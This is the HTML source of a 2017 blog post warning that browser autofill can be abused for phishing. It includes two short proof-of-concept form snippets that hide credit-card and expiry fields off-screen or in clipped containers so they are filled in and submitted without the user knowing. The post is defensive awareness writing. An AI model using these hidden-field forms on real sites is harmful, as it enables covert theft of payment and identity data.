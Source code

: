 ```yaml
---
Risk of Using Browser Autofill Feature
---
```

<article class="post-listing post-17861 post type-post status-publish format-standard has-post-thumbnail hentry  tag-autofill tag-browser tag-feature tag-risk">
    <div class="post-inner">
        <span>Posted by: <a href="https://www.deepdotweb.com/author/filipjelic/" title="">Filip Jelic </a></span>
    <span>January 30, 2017</span>
    
    <span><a href="https://www.deepdotweb.com/2017/01/30/risk-of-using-browser-autofill-feature/#comments">1 Comment</a></span>
    </p>
    <div class="clear"></div>
    
    <p>Everybody hates filling out web forms so some browsers offer a handy Autofill feature to automate the job for you. Unfortunately, it&#8217;s handy for hackers, too.</p>
    <p>Hackers can abuse this feature to phish for your private information as well as credit card number, expiration date and cvc. Any website can have a lot of hidden fields that might get auto-filled and submitted without your knowledge. Take a quick look yourself:</p>
    <p>This proof-of-concept <a href="https://anttiviljami.github.io/browser-autofill-phishing/">demo website</a> consists of a simple online web form with just two fields: name and email. But what&#8217;s not visible are many out of sight fields, including the credit card information, phone number, organization, address, postal code, city etc. There&#8217;s more than one way of coding this, for example (linked demo site):</p>
    <p>&lt;form action=&#8221;https://httpbin.org/post&#8221; method=&#8221;post&#8221;&gt;</p>
    <p>&lt;p style=&#8221;margin-left:-500px&#8221;&gt;</p>
    <p>&lt;input type=&#8221;text&#8221; name=&#8221;cc_number&#8221;&gt;</p>
    <p>&lt;input type=&#8221;text&#8221; name=&#8221;cc_exp_month&#8221;&gt;</p>
    <p>&lt;input type=&#8221;text&#8221; name=&#8221;cc_exp_year&#8221;&gt;</p>
    <p>&lt;/p&gt;&lt;/form&gt;</p>
    <p>Notice the &#8220;margin-left:-500px&#8221; part that displays the text field out of the victim&#8217;s vision. This is not a regular type=&#8221;hidden&#8221; field.</p>
    <p>The same result can be achieved by creating a specially crafted container using &#8220;<a href="http://www.w3schools.com/cssref/pr_pos_overflow.asp">overflow:hidden</a>&#8221; attribute:</p>
    <p>&lt;form action=&#8221;collector.php&#8221; method=&#8221;post&#8221;&gt;</p>
    <p>&lt;div style=&#8221;overflow:hidden;height:35px;&#8221;&gt;</p>
    <p>&lt;input id=&#8221;00&#8243; autocomplete=&#8221;cc-number&#8221;&gt;</p>
    <p>&lt;input id=&#8221;01&#8243; autocomplete=&#8221;cc-exp-month&#8221;&gt;</p>
    <p>&lt;input id=&#8221;02&#8243; autocomplete=&#8221;cc-exp-year&#8221;&gt;</p>
    <p>&lt;/div&gt;&lt;/form&gt;</p>
    <p>These fields would also get auto-filled along with at least one visible, regular text field which is usually put in another container within the same form.</p>
    <p>On the plus side, this method alone cannot capture passwords saved in the browser because they&#8217;re tied to a specific domain, but that&#8217;s not going to comfort someone that lost their identity and banking information.</p>
    <p>Browsers vulnerable to the attack include Google Chrome, Apple Safari and Opera. On the other hand, if you use Mozilla Firefox or Tor, you don&#8217;t need to worry about this issue because Mozilla doesn&#8217;t support auto-filling multiple fields at once.</p>
    <p>Since this method was first published in 2013, Chrome&#8217;s only response was implementing a warning message when credit card information is being submitted over HTTP, I am not expecting a fix anytime soon. Fraudsters can easily obtain a SSL certificate for free so I recommend disabling Autofill feature in your browser.</p>
    <p>If you&#8217;re using Chrome, go to Settings -&gt; Show Advanced Settings (at the bottom) -&gt; uncheck Enable Autofill box to fill out web forms with a single click (under Passwords and Forms section).</p>
    </div>
    <a href="https://www.deepdotweb.com/tag/autofill/" rel="tag">autofill</a> <a href="https://www.deepdotweb.com/tag/browser/" rel="tag">browser</a> <a href="https://www.deepdotweb.com/tag/feature/" rel="tag">feature</a> <a href="https://www.deepdotweb.com/tag/risk/" rel="tag">risk</a></span> <span style="display:none" class="updated">2017-01-30</span>
    <div style="display:none" class="vcard author" itemprop="author" itemscope itemtype="http://schema.org/Person"><strong class="fn" itemprop="name"><a href="https://www.deepdotweb.com/author/filipjelic/" title="Posts by Filip Jelic" rel="author">Filip Jelic</a></strong></div>
    
